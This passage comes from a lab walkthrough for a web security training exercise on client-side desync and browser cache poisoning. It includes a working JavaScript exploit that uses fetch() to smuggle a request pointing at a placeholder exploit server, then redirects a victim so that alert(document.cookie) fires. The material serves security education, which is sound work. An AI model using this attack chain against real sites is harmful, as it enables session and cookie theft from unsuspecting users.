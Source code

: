 _Note: If you need to repeat this attack for any reason, make sure that you clear the cache before each attempt (**Settings -> Clear browsing data -> Cached images and files**)._

6. Observe that you land on the exploit server's "Hello world" page.
7. On the Network tab, you should see three requests:
* The main request, which triggered a server error.
* A request for the analytics.js file, which received a redirect to your exploit server.
* A request for the exploit server after following the redirect.
8. With the Network tab still open, go to the login page.
9. On the Network tab, find the most recent request for `/resources/js/analytics.js`. Notice that not only did this receive a redirect response, but this came from the cache. If you select the request, you can also see that the Location header points to your exploit server. This confirms that you have successfully poisoned the cache via a browser-initiated request.

### Exploit

1. Go back to the exploit server and clear the cache.
2. In the Body section, wrap your attack in a conditional statement so that:
* The first time the browser window loads the page, it poisons its own cache via the fetch() script that you just tested.
* The second time the browser window loads the page, it performs a top-level navigation to the login page containing the JavaScript import.

```html
const labURL = "lab-id.web-security-academy.net";
const exploitHost = "YOUR-EXPLOIT-SERVER-ID.exploit-server.net";

if(window.name != 'skip'){
    window.name = 'skip';
    fetch(`${labURL}/..%2f`, { method: 'POST', body: `GET //${exploitHost}/eXpLoIt HTTP/1.1\r\nFoo: x`, credentials: 'include', mode: 'no-cors' }).then(() => {location=`${labURL}/resources/js/analytics.js`} );
} else {
    window.name = '';
    location = `${labURL}/login`;
}
```

3. As this page will initially be loaded as HTML, wrap the script in HTML `script` tags.
4. Wrap the entire attack inside a JavaScript comment, and add your `alert()` payload outside the comment delimiters:

![HTTP header smuggling](/_static/images/smuggling32.png)

5. **Store** the exploit, clear the cache, then click **View exploit**.
6. Observe that you are navigated to the login page, and the `alert()` fires.
7. Go back to the exploit server and click **Deliver exploit to victim** to solve the lab.

## Exploitability

An attacker will need to identify a client-side desync vector in Burp; confirm that it is possible to trigger the desync from a browser; identify a gadget that enables triggering an open redirect; combining these to craft an exploit that causes the victim's browser to poison its cache with a malicious resource import that calls `alert(document.cookie)` from the context of the main lab domain.

When testing the attack in the browser, make sure to clear cached images and files between each attempt (**Settings -> Clear browsing data -> Cached images and files**). 
